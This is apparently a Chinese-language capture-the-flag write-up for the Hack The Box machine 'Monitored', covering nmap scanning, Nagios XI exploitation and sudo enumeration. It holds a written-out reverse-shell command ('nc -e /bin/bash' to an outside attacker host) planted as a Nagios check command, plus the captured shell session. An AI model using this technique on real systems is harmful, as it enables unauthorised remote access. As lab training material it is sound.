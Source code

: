 # Monitored

:::info 靶机信息

Difficulty: Medium

Operating System: Linux

:::

## nmap 信息搜集

```plaintext
Nmap scan report for 10.10.11.248
Host is up (0.13s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_http-server-header: Apache/2.4.56 (Debian)
| tls-alpn:
|_  http/1.1
5667/tcp open  tcpwrapped
```

并且通过 UDP 扫描，发现 SNMP（161）也在运行

## 探测 web 服务

添加 hosts 记录

```plaintext
10.10.11.248 nagios.monitored.htb
```

尝试直接访问

![直接访问 /](img/image_20240132-123225.png)

## SNMP 信息探测

## 登陆后利用

![成功登录](img/image_20240104-130436.png)

```plaintext
Configure ->  Commands ->  Add New
```

![Commands](img/image_20240105-130554.png)

加上一个反向 shell 的命令

```shell
nc -e /bin/bash 10.10.16.11 9999
```

:::note

建议使用 netcat 进行反向 shell，直接 bash -c 不知道为什么没有成功

:::

![add reverse shell](img/image_20240109-130936.png)

```plaintext
Monitoring -> Services -> Add New
```

![Services](img/image_20240111-131120.png)

执行 `Run Check Command`

成功得到反弹shell

```shell
┌─[randark@randark-Parrot]─[~/tmp/Hackthebox-Monitored]
└──╼ $pwncat-cs -lp 9999
[13:07:28] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[13:14:12] received connection from 10.10.11.248:53958                                                                                                                                                                           bind.py:84
[13:14:14] 0.0.0.0:9999: normalizing shell path                                                                                                                                                                              manager.py:957
[13:14:16] 10.10.11.248:53958: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$ back
(remote) nagios@monitored:/home/nagios$ whoami
nagios
```

## user pwned

```shell
(remote) nagios@monitored:/home/nagios$ cat user.txt 
5a9412d810390fed6e458fe5dba7bf30
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

## 参考

[Acters/Monitored.sh - Github Gist](https://gist.github.com/Acters/058b0421dba28860afd5559db6a7afee)
